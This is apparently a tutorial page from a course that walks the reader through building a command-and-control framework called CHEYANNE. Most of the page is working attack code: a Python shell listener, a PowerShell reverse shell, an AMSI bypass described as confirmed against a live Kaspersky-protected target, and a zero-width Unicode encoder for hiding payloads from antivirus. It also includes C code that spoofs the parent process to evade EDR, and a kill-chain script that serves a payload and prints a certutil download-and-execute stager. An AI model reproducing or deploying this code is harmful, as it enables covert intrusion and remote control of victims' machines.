

CHEYANNE C2
Dual-channel command & control framework. TCP reverse shell + Discord beacon + zero-width steganographic payload encoding. You build it from scratch.
TCP REVERSE SHELL — THE CALLBACK
// CONCEPT: WHY REVERSE, NOT BIND?
A bind shell opens a port on the victim and waits. You connect in. Problem: corporate firewalls block inbound connections on random ports. Blocked.
A reverse shell connects OUT. Port 443 outbound? Allowed everywhere. You sit there with a listener, victim calls home. That's the game.
The operator runs a socket.listen() on their machine. The payload on the target runs socket.connect(operator_ip, port). Once connected, commands go one way, output comes back the other.
MISSION: Write the Python TCP listener
import socket
def listen(port=4443):
srv = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
srv.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
srv.bind(("0.0.0.0", port))
srv.listen(1)
print(f"[*] Listening on :{port}")
conn, addr = srv.accept()
print(f"[+] Connection from {addr[0]}")
while True:
cmd = input("shell> ").strip()
if not cmd:
continue
conn.send((cmd + "\n").encode())
output = conn.recv(65535)
print(output.decode(errors="replace"), end="")
// WHAT JUST HAPPENED
SO_REUSEADDR means if you run this twice in quick succession, it doesn't complain the port is still in TIME_WAIT state. Essential for debugging.
srv.accept() blocks until the victim connects. Returns a new socket conn — that's the victim's dedicated pipe.
conn.recv(65535) reads up to 65KB of response. The victim sends back whatever stdout/stderr the command produced.
This is the dumb version. The real vader_c2.py wraps this in threads, handles reconnects, and parses [RECON] and [SCR] protocol frames for structured output and screenshots.
POWERSHELL REVERSE SHELL CLIENT
Net.Sockets.TcpClient makes the outbound connection. Once connected, it pipes a cmd.exe process through the socket.// CONCEPT: PS1 AS ATTACK SURFACE
PowerShell is built into every Windows machine, signed by Microsoft, and allowed through application whitelisting. It's the perfect delivery vehicle — no binary to drop, runs from memory, exits clean.
A PS1 reverse shell creates a TCP connection, then redirects cmd.exe's stdin/stdout/stderr through that socket. Every command you type on the listener goes to cmd.exe. Every output comes back.
The socket class is [Net.Sockets.TcpClient]. You get a NetworkStream from it, then wrap that in a StreamReader and StreamWriter.
MISSION: Write the PS1 TCP reverse shell core
$ip = "10.0.0.1"
$port = 4443
$client = New-Object Net.Sockets.TcpClient($ip, $port)
$stream = $client.GetStream()
$writer = New-Object IO.StreamWriter($stream)
$writer.AutoFlush = $true
$reader = New-Object IO.StreamReader($stream)
$writer.WriteLine("OK")
while ($true) {
$cmd = $reader.ReadLine()
if (-not $cmd) { break }
try {
$out = (cmd.exe /c $cmd 2>&1) | Out-String
} catch {
$out = "ERROR: $_"
}
$writer.WriteLine($out)
}
// WHAT JUST HAPPENED
writer.AutoFlush = $true is critical. Without it, the StreamWriter buffers output and the listener never sees responses until the buffer fills.
writer.WriteLine("OK") is the banner — the listener reads this to confirm the connection is alive before sending the first command.
cmd.exe /c $cmd 2>&1 runs the command and merges stderr into stdout. Without 2>&1, error messages go nowhere — you'd think the command silently succeeded when it actually failed.
This is the simplified version. The real ghost_encode.py generates a version with AMSI bypass baked in (Lesson 3), encoded in zero-width Unicode (Lesson 4), and fired via -EncodedCommand to avoid PS1 logging.
AMSI BYPASS — SPLIT TYPE NAMES
// CONCEPT: HOW AMSI WORKS
AMSI (Antimalware Scan Interface) is a hook that fires when PowerShell tries to execute a script. It passes the raw script text to Windows Defender BEFORE any execution happens.
Defender has signatures for strings like [Net.Sockets.TcpClient], IEX, DownloadString. If it finds them, script dies. Exit code 0, no output, no error message — just silence.
The fix: split the string into pieces that concatenate at runtime. 'Net.S'+'ock'+'ets.T'+'cp'+'Cli'+'ent' — each piece is harmless. AMSI scans static text, not evaluated expressions.
Result: $T = 'Net.S'+'ock'+'ets.T'+'cp'+'Cli'+'ent'; $c = New-Object -T $T -A ($ip,$port) bypasses AMSI completely.
MISSION: Write the AMSI-safe TcpClient connection
$h = "10.0.0.1"
$p = 4443
$T1 = 'Net.S'+'ock'+'ets.T'+'cp'+'Cli'+'ent'
$T2 = 'IO.St'+'ream'+'Wri'+'ter'
$T3 = 'IO.St'+'ream'+'Rea'+'der'
$client = New-Object -T $T1 -A ($h, $p)
$stream = $client.GetStream()
$writer = New-Object -T $T2 -A $stream
$writer.AutoFlush = $true
$reader = New-Object -T $T3 -A $stream
$writer.WriteLine("OK")
// WHAT JUST HAPPENED
New-Object -T $T1 -A ($h,$p) — the -T parameter takes the type name from a variable. -A passes constructor arguments as an array. AMSI sees $T1, not the actual type name.
This exact technique was CONFIRMED working on a live Kaspersky-protected target. The payload connected. Whoami returned. AMSI defeated with string arithmetic.
The split doesn't need to be at word boundaries — it just needs to be enough splits that no single fragment matches a known signature. 'Net.S'+'ock' defeats it. Even 'N'+'et'+'.Sockets.TcpClient' would work — just the prefix being broken is enough.
ZERO-WIDTH UNICODE STEGANOGRAPHY
// CONCEPT: THE GHOST ALPHABET
Unicode includes characters with zero visible width — they render as nothing. Zero Width Space, Zero Width Joiner, Mongolian Vowel Separator, etc. A string of 200 of these looks like an empty line.
Use 16 of these as a hex alphabet (0x0 through 0xF). Each byte becomes 2 invisible chars (high nibble + low nibble). A 10KB payload becomes 20KB of invisible Unicode — looks like whitespace in any text editor.
A visible bootstrap stub at the top decodes the invisible payload and executes it via Invoke-Expression. AV scanners see the stub (clean) and invisible noise (not a signature match). The real payload never appears in cleartext on disk.
MISSION: Write the encode_bytes() function
GHOST_ALPHABET = [
'', # 0x0 ZERO WIDTH SPACE
'', # 0x1 ZERO WIDTH NON-JOINER
'', # 0x2 ZERO WIDTH JOINER
'', # 0x3 WORD JOINER
'', # 0x4 FUNCTION APPLICATION
'', # 0x5 INVISIBLE TIMES
'', # 0x6 INVISIBLE SEPARATOR
'', # 0x7 INVISIBLE PLUS
'', # 0x8 INHIBIT SYMMETRIC SWAPPING
'', # 0x9 ACTIVATE SYMMETRIC SWAPPING
'', # 0xA INHIBIT ARABIC FORM SHAPING
'', # 0xB ACTIVATE ARABIC FORM SHAPING
'', # 0xC NATIONAL DIGIT SHAPES
'', # 0xD NOMINAL DIGIT SHAPES
'', # 0xE ZERO WIDTH NO-BREAK SPACE
'', # 0xF MONGOLIAN VOWEL SEPARATOR
]
def encode_bytes(data: bytes) -> str:
encoded = []
for byte in data:
high = (byte >> 4) & 0x0F
low = byte & 0x0F
encoded.append(GHOST_ALPHABET[high])
encoded.append(GHOST_ALPHABET[low])
return ''.join(encoded)
// WHAT JUST HAPPENED
(byte >> 4) & 0x0F — right-shift by 4 bits to get the top nibble. Mask with 0x0F to get only the bottom 4 bits of what's left. Result: 0-15.
byte & 0x0F — just mask the bottom 4 bits. Also 0-15.
For byte 0x41 ('A'): high = 0x4 = FUNCTION APPLICATION, low = 0x1 = ZERO WIDTH NON-JOINER. Two invisible chars. Decoder reverses this: sees the two chars, looks them up in reverse dict, reconstructs 0x41.
The full ghost_encode.py wraps a PS1 reverse shell in this encoding, then prepends a visible decoder stub that runs when PS1 loads the file. The payload executes in memory — it never existed as cleartext on disk.
GHOST LOADER — PARENT PROCESS SPOOF
PROC_THREAD_ATTRIBUTE_PARENT_PROCESS makes it appear as a child of explorer.exe.// CONCEPT: PARENT PROCESS SPOOFING
Windows process creation records parent PID. EDRs look for suspicious parent-child relationships — word.exe spawning powershell.exe is a massive red flag.
The Windows API lets you specify an arbitrary parent when creating a process, using PROC_THREAD_ATTRIBUTE_PARENT_PROCESS in the extended attribute list. You can say "I am a child of explorer.exe" even though explorer never ran you.
Result in Process Monitor: your shell appears as explorer.exe → svchost_update.exe. Looks like a normal Windows service launch. EDR correlation misses it.
MISSION: Write the parent spoof process creation in C
HANDLE get_explorer_handle() {
DWORD pid = 0;
HANDLE snap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
PROCESSENTRY32 pe = {0};
pe.dwSize = sizeof(pe);
if (Process32First(snap, &pe)) {
do {
if (_stricmp(pe.szExeFile, "explorer.exe") == 0) {
pid = pe.th32ProcessID;
break;
}
} while (Process32Next(snap, &pe));
}
CloseHandle(snap);
return OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
}
void spawn_spoofed(const char *cmd, HANDLE parent) {
STARTUPINFOEXA si = {0};
PROCESS_INFORMATION pi = {0};
SIZE_T size = 0;
InitializeProcThreadAttributeList(NULL, 1, 0, &size);
LPPROC_THREAD_ATTRIBUTE_LIST attrs =
(LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, size);
InitializeProcThreadAttributeList(attrs, 1, 0, &size);
UpdateProcThreadAttribute(attrs, 0,
PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &parent,
sizeof(parent), NULL, NULL);
si.StartupInfo.cb = sizeof(si);
si.lpAttributeList = attrs;
CreateProcessA(NULL, (LPSTR)cmd, NULL, NULL, FALSE,
EXTENDED_STARTUPINFO_PRESENT | CREATE_NO_WINDOW,
NULL, NULL, (LPSTARTUPINFOA)&si, &pi);
}
// WHAT JUST HAPPENED
CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0) — takes a snapshot of all running processes. Process32First/Next iterates them. _stricmp is case-insensitive — because Explorer.EXE and explorer.exe both appear in the wild.
InitializeProcThreadAttributeList called twice — first with NULL to get the required buffer size, then with the allocated buffer to initialise it. This two-pass pattern is standard Windows extended attribute usage.
EXTENDED_STARTUPINFO_PRESENT in the creation flags tells Windows that si.lpAttributeList is populated. Without this flag, the attribute list is ignored entirely.
Combined with XOR-encrypted payload and zero-width steg delivery: CLEAN on Kaspersky in testing. The binary is 109KB, seed 66728. Called ghost_fud.exe in CHEYANNE v2.
KILL CHAIN — FULL AUTOMATION
auto_op.py runs the full chain from a single command: recon → build → deliver → watch. No manual steps. No troubleshooting mid-op.// CONCEPT: THE CHEYANNE KILL CHAIN [Q→I→B→P→W]
[Q] Drop Recon — deploy recon_drop.ps1 via PSEXEC or file server. Victim runs it, outputs JSON: AV present, admin rights, UAC level, open ports.
[I] Import — read the recon JSON. Auto-select UAC bypass method. Auto-configure ghost_fud target IP/port.
[B] Build — call ghost_encode.py with target params. Generate FUD'd payload. Optionally run the metamorphic mutation loop (ghost_fud variant).
[P] Deploy — stand up HTTP file server on :8080. Generate certutil download command. Wait for victim to execute the stager.
[W] Watch — accept TCP callback. Start watch_stream.py. Screenshots stream to browser on :8892. Operator watches live from their machine.
// LIVE VNC STREAM — FRAME 134 (2026-06-25)

MISSION: Write the auto_op() kill chain skeleton
import threading, socket, subprocess, sys, os, time
def auto_op(target_ip, port=4443, serve_port=8080):
payload_path = build_payload(target_ip, port)
print(f"[*] Payload: {payload_path}")
server_thread = threading.Thread(
target=serve_files, args=(serve_port,), daemon=True
)
server_thread.start()
print(f"[*] File server on :{serve_port}")
cmd = (f"certutil -urlcache -split -f "
f"http://{get_local_ip()}:{serve_port}/payload.exe "
f"C:\\Users\\Public\\svc.exe && "
f"start /B C:\\Users\\Public\\svc.exe")
print(f"[*] Deliver via: {cmd}")
srv = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
srv.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
srv.bind(("0.0.0.0", port))
srv.listen(1)
print(f"[*] Waiting for callback on :{port}...")
conn, addr = srv.accept()
print(f"[+] Shell from {addr[0]}")
watch_session(conn)
// WHAT JUST HAPPENED — YOU BUILT CHEYANNE
That's the full chain. Listener 1 (TCP) accepts the shell. Listener 2 (HTTP) serves the payload. The operator only needs to paste the certutil command once. After that, it's automated.
certutil is a built-in Windows tool for certificate management — it also downloads files. Signed by Microsoft. Most application whitelists pass it. certutil -urlcache -split -f <url> <dest> downloads to disk.
start /B runs without a visible window and returns immediately — so the stager command completes and the session doesn't hang waiting for the payload to exit.
watch_session(conn) is the VNC loop — it sends the screen command periodically, receives base64-encoded JPEG data in [SCR]...[/SCR] tags, decodes and serves them on HTTP :8892.
The full implementation lives at cheyanne/auto_op.py. The menu (vader_menu.py) wires all of this to hotkeys: [Q] drop recon, [I] import, [B] build, [P] phase deploy, [W] watch.
// CHEYANNE C2 — COMPLETE
You built a dual-channel C2 framework from scratch.
TCP reverse shell. AMSI bypass. Zero-width steganography. Parent process spoofing. Kill chain automation.
← Back to Course Catalog | Next: Ghost Encoder →
Source: rainfantry/cheyanne (private) — v2.0, 2026-06-25